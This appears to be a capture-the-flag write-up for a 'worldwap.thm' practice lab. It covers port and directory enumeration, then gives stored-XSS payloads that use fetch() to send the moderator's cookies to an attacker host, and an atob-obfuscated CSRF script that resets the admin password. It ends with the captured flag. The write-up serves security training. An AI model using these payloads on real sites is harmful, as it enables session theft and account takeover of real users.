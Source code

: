 
## nmap scan
![](Pasted%20image%2020250208160826.png)

- 22 - ssh open
- 80 - cookie secure flag not set

Let s see what is on port 8081 
	![](Pasted%20image%2020250208161928.png)
	![](Pasted%20image%2020250208161957.png)

```shell
(root㉿kali)-[~]
└─# dirbuster -u http://worldwap.thm:8081 -l /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 

Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
File found: /index.php - 200
Feb 08, 2025 2:17:59 PM org.apache.commons.httpclient.HttpMethodBase processCookieHeaders
WARNING: Cookie rejected: "$Version=0; PHPSESSID=ltqln2ktcei1me78r6069f4ntl; $Path=/; $Domain=.worldwap.thm". Illegal domain attribute ".worldwap.thm". Domain of origin: "worldwap.thm"
Feb 08, 2025 2:17:59 PM org.apache.commons.httpclient.HttpMethodBase processCookieHeaders
WARNING: Cookie rejected: "$Version=0; PHPSESSID=rcs2an6hlmgm0ph5uim4lvlvt8; $Path=/; $Domain=.worldwap.thm". Illegal domain attribute ".worldwap.thm". Domain of origin: "worldwap.thm"
File found: /login.php - 200
Dir found: /icons/ - 403
File found: /profile.php - 302
File found: /clear.php - 200
Dir found: /assets/ - 200
File found: /chat.php - 302
Dir found: /icons/small/ - 403
File found: /db.php - 200
Dir found: /javascript/ - 403
File found: /logout.php - 302
File found: /setup.php - 200
File found: /block.php - 200
```

Nothing interesting found therefore we will get back at the main app hosted on port 80

## moderator account takeover
### **XSS (cookie steal)**
Let s try to create an account
	![](Pasted%20image%2020250208185950.png)
When we try to log in with the just created account we get the following message: ''user not verified" which means that our account was not validated by an authorithy(in our case an account moderator)
	![](Pasted%20image%2020250208190119.png)
We can try to register another account but this time to inject an XSS payload that will steal the moderator cookie once he will open our registration:

```javascript
<img src="nbyte" onerror="fetch('http://10.10.117.68:8000/?cookie='+document.cookie)">
```
OR
```javascript
<img src="nbyte2" onerror="fetch('http://10.10.117.68:8000/?secret='+encodeURIComponent(document.cookie))">
```

![](Pasted%20image%2020250208191234.png)

Now let s try to steal the moderator session using his cookies:
	![](Pasted%20image%2020250208191350.png)
		![](Pasted%20image%2020250208191459.png)

## administrator account takeover
### **CSRF (request of password change)**

We have noticed that change password functionality and it s endpoint (it is useful functiability for our CSRF payload)
	![](Pasted%20image%2020250208213857.png)
Parameter that we wanna change is new_password (this one will be injected in our req)
	![](Pasted%20image%2020250208220056.png)Also we have the chat option where we can get in touch with our actual victim(admin)
	![](Pasted%20image%2020250208214135.png)

Perfect scenario until now... let's build the payload script that will be sent over the chat. Here's an example of how an attacker can update a password  and send an asynchronous request to update the email seamlessly.

```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://worldwap.thm:8081/change_password.php', true);
    xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    
    xhr.onreadystatechange = function () {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            alert("Action executed!");
        }
    };
    
    xhr.send('action=execute&new_password=NBYTE');
</script>
```

However, it must be noticed that our payload is included now in a <href attribute (is converted in a direct link)
	![](Pasted%20image%2020250208220532.png)

To solve this problem we have to encode whole url and use javascript decoder built in function `atob`.
	![](Pasted%20image%2020250208220659.png)
```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST',atob( 'aHR0cDovL3dvcmxkd2FwLnRobTo4MDgxL2NoYW5nZV9wYXNzd29yZC5waHA='), true);
    xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    
    xhr.onreadystatechange = function () {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            alert("Action executed!");
        }
    };
    
    xhr.send('action=execute&new_password=NBYTE');
</script>
```

![](Pasted%20image%2020250208220940.png)

Now we can log in into the admin page with the newly created password :)

AdM!nP@wnEd